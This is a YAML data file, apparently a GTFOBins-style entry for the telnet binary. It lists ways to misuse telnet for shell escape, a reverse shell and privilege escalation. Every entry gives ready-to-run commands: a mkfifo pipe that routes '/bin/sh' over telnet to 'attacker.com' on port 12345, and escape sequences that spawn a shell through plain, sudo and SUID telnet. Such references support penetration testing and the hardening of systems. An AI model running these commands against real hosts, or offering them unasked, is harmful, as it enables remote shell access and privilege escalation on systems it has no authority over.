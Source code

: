 ```yaml
---
functions:
  execute-interactive:
  - description: BSD version only. Needs to be connected first.
    code: |
      RHOST=attacker.com
      RPORT=12345
      telnet $RHOST $RPORT
      ^]
      !/bin/sh
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      RHOST=attacker.com
      RPORT=12345
      TF=$(mktemp)
      rm $TF
      mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF
  sudo-enabled:
  - description: BSD version only. Needs to be connected first.
    code: |
      RHOST=attacker.com
      RPORT=12345
      sudo telnet $RHOST $RPORT
      ^]
      !/bin/sh
  suid-limited:
  - description: BSD version only. Needs to be connected first.
    code: |
      RHOST=attacker.com
      RPORT=12345
      ./telnet $RHOST $RPORT
      ^]
      !/bin/sh
---
```


